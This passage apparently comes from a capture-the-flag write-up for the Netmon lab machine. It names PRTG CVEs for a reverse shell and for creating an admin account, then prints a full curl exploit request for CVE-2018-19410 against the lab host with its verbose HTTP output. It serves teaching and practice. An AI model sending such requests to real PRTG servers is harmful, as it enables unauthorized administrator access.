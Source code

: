 * [CVE-2018-19204](https://www.cvedetails.com/cve/CVE-2018-19204/) would allow
  us to get a reverse shell if we can successfully log in to the target. This
  would be useful if we had access to the UI already.
* [CVE-2018-19410](https://www.cvedetails.com/cve/CVE-2018-19410/) allows us to
  create an admin account by exploiting a file-inclusion loophole in the login
  page.

The latter of these two sounds promising, and the details on how to exploit
this vulnerability have been written up
[here](https://medium.com/@qdoan95/building-an-exploit-for-cve-2018-19410-1475f555f74c).
We can use [https://temp-mail.org](https://temp-mail.org) to generate a
temporary email address. Copying a sample request as
[cURL](https://en.wikipedia.org/wiki/CURL) using our browser's development
tools and tweaking it in line with the article on CVE-2018-19410, we can try
and create an administrator account:

```shell-session
$ curl -v -X POST -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' 'http://netmon.htb/public/login.htm?file=/api/addusers.htm' -d 'id=200&users=rivimop575%40djpich.com'
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 10.129.231.215:80...
* Connected to netmon.htb (10.129.231.215) port 80 (#0)
> POST /public/login.htm?file=/api/addusers.htm HTTP/1.1
> Host: netmon.htb
> User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> DNT: 1
> Connection: keep-alive
> Upgrade-Insecure-Requests: 1
> Sec-GPC: 1
> Content-Length: 36
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 36 out of 36 bytes
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Moved Temporarily
< Connection: close
< Content-Type: text/html; charset=UTF-8
< Content-Length: 0
< Date: Sun, 02 Apr 2023 21:20:58 GMT
< Expires: 0
< Cache-Control: no-cache
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< X-Frame-Options: DENY
< Server: PRTG/18.1.37.13946
< Location: /error.htm?errormsg=Sorry%2C%20your%20user%20account%20is%20not%20allowed%20to%20access%20this%20information.&errorurl=%2Fpublic%2Flogin.htm%3Fid%3D200%26users%3Dattacker2%40.prtg.local%26file%3D%2Fapi%2Faddusers.htm%26
< 
* Closing connection 0
```
